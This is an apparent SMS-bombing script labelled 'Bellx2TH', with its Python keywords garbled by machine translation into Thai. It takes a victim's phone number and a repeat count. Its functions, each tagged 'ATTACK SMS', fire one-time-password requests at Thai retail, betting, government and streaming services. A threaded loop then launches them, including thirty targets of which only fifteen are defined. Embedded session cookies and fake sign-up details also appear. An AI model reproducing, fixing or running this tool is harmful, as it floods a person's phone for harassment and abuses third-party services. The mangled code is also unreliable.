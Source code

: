 คำขอนำเข้า
 เวลานำเข้า
นำเข้า เกลียว
จาก การทำเกลียว นำเข้า Thread
พิมพ์ ( "" )
print ( "Bellx2TH" )
พิมพ์ ( "" )
phone  =  input ( "เบอร์ : " )
NUM  =  int ( อินพุต ( "จำนวน: " ))

พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺...." )
พิมพ์ ( "" )

def  api ():
	คำขอ _ โพสต์ ( "https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp" , data = { "mobile_phone_no" : phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : LOTUSS" )

def  api2 ():
	คำขอ _ โพสต์ ( "https://www.aurora.co.th/signin/otp_chk" , data = f"mobile= { phone } &type_otp=3" )
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : เจสัน" )

def  api3 ():
	คำขอ _ โพสต์ ( "https://tamjaibet.com/api/request/otp" , ข้อมูล= { "PhoneNumber" : "0" + โทรศัพท์ , "เข็ม" : "HFdjc3ZU4WAnxLQQcCWB0TWV9zPCdpWmFpCUApNUtwAENbCGJkEAR9ckcdc20XMFR8HVQhEkREXwIOcDwnKRl1LDpXaQMJYB8ZSBQzZRdpem4YF3VHST0BYVQTU1NEcQATSSgpOnY3ZS9ZAFw3WSZXASwecS4LZD5wWhRicklxFQ1cFVAiczQOYxYSfUkaTD1sSSFTZU0mRDoZciRkEHV9dTE" })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MOVDIER" )

def  api4 ():
	คำขอ _ โพสต์ ( "https://store.boots.co.th/api/v1/guest/register/otp-challenge" , json = { "phone_number" : "+66" + phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : BOOT" )

def  api5 ():
	คำขอ _ post ( "https://www.carsome.co.th/website/login/sendSMS" , json = { "username" : "phone" , "optType" : 0 })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON2" )

def  api6 ():
	คำขอ _ โพสต์ ( "https://gamingnation.dtac.co.th/api/otp/generate" , json = { "template" : "register" , "phone_no" : "phone" })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : OTP " )

def  api7 ():
	คำขอ _ โพสต์ ( "https://cognito-idp.ap-southeast-1.amazonaws.com/" , headers = { "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "content-type" : "application/x-amz-json-1.1" , "x-amz-target" : "AWSCognitoIdentityProviderService.SignUp" , "x- amz-user-agent" : "aws-amplify/0.1.x js" , "ผู้อ้างอิง" : "https://www.bugaboo.tv/members/signup/phone""ClientId" : "6g47av6ddfcvi06v4l186c16d6" , "Username" : f"+66 { phone [ 1 :] } " , "Password" : "098098Az" , "UserAttributes" :[{ "Name" : "name" , "Value" : "Dbdh" },{ "Name" : "birthdate " , "Value" : "2005-01-01" },{ "Name" : "gender" ,"ค่า" : "ชาย" },{ "ชื่อ" :"phone_number" , "Value" : f"+66 { phone [ 1 :] } " },{ "Name" : "custom:phone_country_code" , "Value" : "+66" },{ "Name" : "กำหนดเอง :is_agreement" , "Value" : "true" },{ "Name" : "custom:allow_consent" , "Value" : "true" },{ "Name" : "custom:allow_person_info", "ค่า" : "จริง" }], "ValidationData":[]})
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : NODE" )

def  api8 ():
	คำขอ _ โพสต์ ( "https://cognito-idp.ap-southeast-1.amazonaws.com/"ส่วนหัว= { "cache-control" : "max-age=0" , "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "content-type" : "application/x-amz-json-1.1" , "x- amz-target" : "AWSCognitoIdentityProviderService.ResendConfirmationCode" , "x-amz-user-agent" : "aws-amplify/0.1.x js" ,"https://www.bugaboo.tv/members/resetpass/phone" }, json = { "ClientId" : "6g47av6ddfcvi06v4l186c16d6" , "Username" : f"+66 { phone [ 1 :] } " })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON" )

def  api9 ():
	คำขอ _ โพสต์ ( "https://api.scg-id.com/api/otp/send_otp"ส่วนหัว= { "ประเภทเนื้อหา" : "application/json;charset=UTF-8" }, json = { "phone_no" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : JAVA" )

def  api10 ():
	คำขอ _ โพสต์ ( "https://ep789bet.net/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C" )

def  api11 ():
	คำขอ _ โพสต์ ( "http://b226.com/x/code" , data = { f"phone" : phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C+" )

def  api12 ():
	คำขอ _ โพสต์ ( "https://www.msport1688.com/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : HTML" )

def  api13 ():
	คำขอ _ รับ ( "https://m.redbus.id/api/getOtp?number=" + โทรศัพท์ [ 1 :] + "&cc=66&whatsAppOpted=true"ส่วนหัว= { "traceparent" : "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01 " , "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" }) ข้อความ
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PHP" )

def  api14 ():
	คำขอ _ โพสต์ ( "https://www.msport1688.com/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MC∆T" )

def  api15 ():
	คำขอ _ โพสต์ ( 'https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp'ส่วนหัว = { "User-Agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 ( KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "Content-Type" : "application/x-www-form-urlencoded; charset=UTF-8" , "X-Requested-With" : "XMLHttpRequest " , "คุกกี้" :"sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"}, data = f"dCard=1358231116147&Mobile= { phone } &password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=40 gmaidtype "
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : END" )



สำหรับ ฉัน อยู่ใน ช่วง ( NUM ):
	เกลียว _ เธรด ( เป้าหมาย= api ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api2 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api3 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api4 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api5 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api6 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api7 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api8 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api9 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api10 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api11 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api12 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api13 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api14 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api15 ) เริ่ม () 
	เกลียว _ เธรด ( เป้าหมาย= api16 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api17 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api18) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api19 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api20) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api21) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api22) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api23 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api24 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api 25) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api26 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api27 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api28 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api29 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api30 ) เริ่ม () 
